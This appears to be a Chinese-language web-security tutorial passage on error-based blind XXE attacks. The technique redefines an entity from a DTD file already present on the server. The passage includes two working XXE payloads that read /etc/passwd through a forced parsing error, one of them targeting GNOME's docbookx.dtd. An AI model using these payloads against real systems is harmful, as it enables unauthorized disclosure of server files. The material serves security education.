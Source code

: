 _**上述技术适用于外部 DTD，但通常不适用于在DOCTYPE元素中完全指定的内部 DTD。这是因为该技术涉及`在一个参数实体的定义中使用 XML 参数实体`。根据 XML 规范，这在外部 DTD 中是允许的，但在内部 DTD 中是不允许的。（一些解析器可能会兼容这种错误，但许多解析器不会。）**_

### **基于错误的 XXE 攻击 (系统内置 DTD)**

当 **out-of-band interactions are blocked**（即无法外联的情况），但 blind XXE 存在的情况应该如何处置？ [相关资料](https://portswigger.net/web-security/xxe/blind)。

在这种情况下，由于 XML 语言规范中的漏洞，仍然可能**触发包含敏感数据的错误消息**。如果文档的**DTD 混合使用内部和外部DTD**声明，则**内部DTD 可以重新定义在外部DTD**中声明的实体。发生这种情况时，对`在一个参数实体的定义中使用 XML 参数实体`的限制就会放宽。


这意味着攻击者可以在内部 DTD 中使用**基于错误的 XXE 技术**，前提是他们使用的 XML 参数实体是**重新定义在外部 DTD 中声明的实体**。当然，如果带外连接被阻止，则无法从远程位置加载外部 DTD。相反，它需要是一个**应用程序服务器本地的外部 DTD 文件**。 _从本质上讲，攻击涉及调用恰好存在于本地文件系统上的 DTD 文件，并重新利用它来重新定义现有实体，从而触发包含敏感数据的解析错误。_

例如，假设在服务器文件系统的“/usr/local/app/schema.dtd”位置有一个 DTD 文件，该 DTD 文件定义了一个名为“custom_entity”的实体。攻击者可以通过提交如下所示的混合 DTD 来触发包含 `/etc/passwd` 文件内容的 XML 解析错误消息：

```markup
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
    <!ENTITY % custom_entity '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```

此 DTD 执行以下步骤：

* 定义一个名为 `local_dtd` 的 XML 参数实体，包含存在于服务器文件系统上的外部 DTD 文件的内容。
* 重新定义名为“custom_entity”的 XML 参数实体，该实体已在外部 DTD 文件中定义。该实体被重新定义为包含 [基于错误的 XXE 漏洞利用](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages)已经描述过，用于触发包含 `/etc/passwd` 文件内容的错误消息。
* 使用 `local_dtd` 实体，以便解释外部 DTD，包括 `custom_entity` 实体的重新定义值。这会产生所需的错误消息。

**真实示例：** 使用 GNOME 桌面环境的系统通常在 `/usr/share/yelp/dtd/docbookx.dtd` 有一个 DTD，其中包含一个名为 `ISOamso` 的实体

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

